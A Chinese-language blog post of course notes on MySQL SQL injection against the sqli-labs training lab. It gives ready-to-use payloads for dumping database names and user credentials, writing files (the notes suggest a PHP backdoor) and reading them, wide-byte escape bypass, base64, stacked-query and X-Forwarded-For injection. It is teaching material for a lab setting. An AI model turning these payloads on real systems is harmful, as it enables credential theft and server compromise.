 # 04-mysql注入




  

> 靶场下载地址：https://github.com/Audi-1/sqli-labs
  
### mysql数据库分层

    1.库名，表名，列名，数据库用户等
    2.数据库与WEB应用相结合的架构关系

```sql
Mysql数据库
        数据库A zblog  =  www.zblog.com
                表名
                        列名
                                数据
        数据库B dede   =  www.dede.com
                表名
                        列名
                                数据

PS：
数据库A及B都属于Mysql数据库里面的
数据库用户：管理数据库的用户
级别：管理员用户root 普通用户随机
自带数据库：mysql数据库自带的




```

#### mysql注入权限问题

- 普通用户   **（只能靠猜数据进行安全测试）**
- root用户 

**查询参数：**

```
user()
database()
version()    // 查询数据库版本
@@version_compile_os     // 操作系统版本

```

#### 跨库注入

>场景:   要渗透B， B没有漏洞，但是A有注入漏洞 

```sql
-- 
1.获取所有的数据库name    
-- select group_concat(schema_name) from information_schema.schemata;
http://192.168.0.106/Less-2/?id=-1 union select 1,2,(select group_concat(schema_name) from information_schema.schemata)

2. 再选取某个数据库下面的表  
http://192.168.0.106/Less-2/?id=-1 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security')

3. 根据表查列
http://192.168.0.106/Less-2/?id=-1 union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security')

4. 查数据
http://192.168.0.106/Less-2/?id=-1 union select 1,2,(select group_concat(username,password) from security.users)
-- 或者
http://192.168.0.106/Less-2/?id=-1 union select 1,2,(select concat_ws(0x7e,username,password) from security.users  limit 3,1)
-- 或者
http://192.168.0.106/Less-2/?id=-1 union select 1,2,(select group_concat(concat_ws(0x7e,username,password)) from security.users)


```


sqlLabs 1 -7 练习

---



## MYSQL高权限注入

    mysql跨库注入-已讲
    mysql文件操作注入-sqlilabs less7



```sql
-- null
http://192.168.0.106/Less-7/?id=1')) union select null,null,null --+

--win的路径的话，加2个斜杠防止转义
-- 写入（aaa可以换成后门代码,txt可以换php）   （高版本，失败：需要数据库开启secure_file_priv，如果可以执行命令，可以绕过：下来自己查）
http://192.168.0.106/Less-7/?id=1')) union select  'aaa',null,null into outfile '/var/www/html/Less-7/test.txt' --+

-- 自己查资料？？？？？？？？？？


-- 读取文件
http://192.168.0.106/Less-7/?id=1')) union select   null,null,load_file('/var/www/html/Less-7/test.txt') --+


-- 路径问题：需要提前得到网站完整路径
-- 路径获取方法：
1.报错显示          inurl:php  warning
2.遗留文件        phpinfo()的 server_root。 script_filename
3.漏洞爆路径       discuzz爆路径
4.其他
    读取(配合load_file)网站解析配置文件
    字典盲猜测fuz： 


```



## MYSQL过滤型注入

mysql**宽字节**绕过注入-sqlilabs less32

> 宽字节注入条件：数据库编码为GBK等非中文

> 原理：%5c是反斜杠/ ,  而 %df%5c 是一个繁体字（我不会读），所以单引号成功逃逸

```sql
$id=check_addslashes($_GET['id']); # 在你输入单引号的时候，自动加\转义

魔术引号： magic_quote_gpc       (php.ini配置文件中), 打开之后，会转义单引号双引号  ------ 和上面的过滤函数有区别

【方法】：
%df"
%df'

http://192.168.0.106/Less-32/?id=-1%df%27 union select 1,2,3 -- + 


其他方法，自己查阅：？？？？？？？？？？

列举几个常用的URL转码的字符

空格           %20

单引号       %27

#                %23

\                 %5C


```

在PHP中，通过`iconv()`进行编码转换时，也可能存在宽字节注入漏洞  





## MYSQL其他注入

#### 加密编码注入       -sqlilabs less21  (post注入)

先加密，再填写
inurl:MQ=

```sql
了解主流加密/编码规律

```

#### base64注入攻击

程序代码中使用`base64_decode($_GET('id'))` 对参数进行解码

```
对 id' 进行base64编码后为  MSc=  ，而%3d是=的url编码， 拼接为 `MCs=%3d` 后尝试；
1 and 1=1 的base64编码为  ，1 and 1=2 的base64编码为 ， 分别放到id=的后门尝试， 结果如果不同，则存在漏洞
继续使用order by 继续

````

**其他利用场景：**
过waf， 绕过检测



#### 堆叠查询注入

堆叠查询可以执行多条sql语句，多语句之间使用**分号**隔开，**在第二个sql语句中构造自己要执行的语句**

例如：

```sql
';select if(substr(user(),1,1)='r', sleep(5),1) -- + 
-- 一般只会返回第一条sql的执行结果
http://192.168.0.121:8080/Less-9/?id=1%27; select if(left(user(),4)='root',sleep(5), 0); -- + 
-- 所以，在第二条语句中，可以私用update更新数据或者时间盲注获取数据

```


#### XFF注入

x-Forwarded-For， 代表客户端真实的ip， 修改后可以伪造客户端ip
将xff头改为:`127.0.0.1`访问，如果返回正常，分别设置为`127.0.0.1' and 1=1#` 和`127.0.0.1' and 1=2#`再次访问  ，根据返回结构判断有没有漏洞  
继续使用order by， 而后使用union `127.0.0.1' union select 1,2,3#`

php中的`getenv()`函数用于获取一个环境变量的值 ，如果不存在返回false



---

下次课继续...

---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/04-mysql%E6%B3%A8%E5%85%A5/  

